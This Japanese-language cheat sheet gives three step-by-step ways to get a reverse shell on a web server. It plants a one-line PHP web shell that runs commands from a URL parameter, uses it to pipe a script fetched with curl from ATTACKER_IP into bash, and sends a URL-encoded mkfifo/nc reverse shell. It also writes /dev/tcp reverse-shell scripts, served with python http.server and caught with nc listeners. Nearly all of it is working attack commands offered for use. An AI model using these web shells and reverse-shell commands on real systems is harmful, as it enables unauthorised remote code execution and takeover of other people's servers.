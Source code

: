 以下のような `shell.php` を作成し、攻撃対象のサーバにアップロード。ただしブラウザ上でアクセスできる場所にすること。

```php
<?php echo system($_GET["cmd"]); ?>
```

任意のポートを開放。

```bash
nc -nlvp 2222
```

以下のような [`shell.sh`](http://shell.sh) を作成し、任意のディレクトリに保存。

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/2222 0>&1
```

当該ディレクトリでwebサーバを起動。

```bash
python3 -m http.server 8080
```

ブラウザ上で以下のURLにアクセス。

```bash
http://TARGET_URL/PATH/shell.php?cmd=curl%20ATTACKER_IP:8080/shell.sh|bash
```

## 2

1の `shell.php` の設置・ポート開放後、ブラウザ上で以下のURLにアクセス。

```bash
http://TARGET_URL/PATH/shell.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+ATTACKER_IP+2222+%3E+%2Ftmp%2Ff
```

## 3

リバースシェルを起動するシェルスクリプトファイルを作成

```bash
echo -e '#!/bin/bash\\nsh -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1' > rev.sh
```

当該ファイルを作成したディレクトリでwebサーバを起動

```bash
python3 -m http.server 8080
```

ポート開放

```bash
nc -lvnp ATTACKER_PORT
```

シェルスクリプトをダウンロードして実行するスクリプトをターゲットに何かしらの方法で実行させる

